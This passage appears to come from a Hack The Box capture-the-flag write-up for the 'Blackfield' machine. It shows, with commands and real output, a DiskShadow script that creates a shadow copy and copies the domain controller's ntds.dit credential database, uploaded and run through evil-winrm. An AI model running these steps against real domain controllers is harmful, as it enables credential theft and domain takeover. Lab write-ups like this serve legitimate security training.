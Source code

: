 ```powershell
Get-acl $ntds_file | select -expand accesstostring
BLACKFIELD\svc_backup Allow  FullControl
NT AUTHORITY\SYSTEM Allow  FullControl
BUILTIN\Administrators Allow  FullContro
```

Now we'll use `DiskShadow` to make a shadow copy of the ntds.

> DiskShadow.exe is a tool that exposes the functionality offered by the Volume Shadow Copy Service (VSS). By default, DiskShadow uses an interactive command interpreter similar to that of DiskRaid or DiskPart. DiskShadow also includes a scriptable mode.
>
> [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)

Let's prepapre the copy script (`diskshadow.txt`) to run `DiskShadow` in script
mode.

```batch
set context persistent nowriters#
add volume c: alias cyfun#
create#
expose %cyfun% x:#
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\Users\svc_backup\Videos\ntds.dit#
delete shadows volume %cyfun%#
reset#
```

Then we can use [evil-winrm][evil-winrm] native upload feature.

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> upload /home/cyfun/CTF/HackTheBox/machines/Blackfield/diskshadow.txt
Info: Uploading /home/cyfun/CTF/HackTheBox/machines/Blackfield/diskshadow.txt to C:\Users\svc_backup\Videos\diskshadow.txt

Data: 268 bytes of 268 bytes copied

Info: Upload successful!
```

And then call `DiskShadow`.

```
*Evil-WinRM* PS C:\Users\svc_backup> diskshadow.exe /s C:\Users\svc_backup\Videos\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/21/2020 12:12:50 AM

-> set context persistent nowriters
-> add volume c: alias cyfun
-> create
Alias cyfun for shadow ID {eef6f0be-3c60-4e69-985d-3bc400a24ff1} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {12b5d80f-4368-4727-a02b-1b22f5e020ef} set as environment variable.

Querying all shadow copies with the shadow copy set ID {12b5d80f-4368-4727-a02b-1b22f5e020ef}

        * Shadow copy ID = {eef6f0be-3c60-4e69-985d-3bc400a24ff1}               %cyfun%
                - Shadow copy set: {12b5d80f-4368-4727-a02b-1b22f5e020ef}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/21/2020 12:12:51 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
```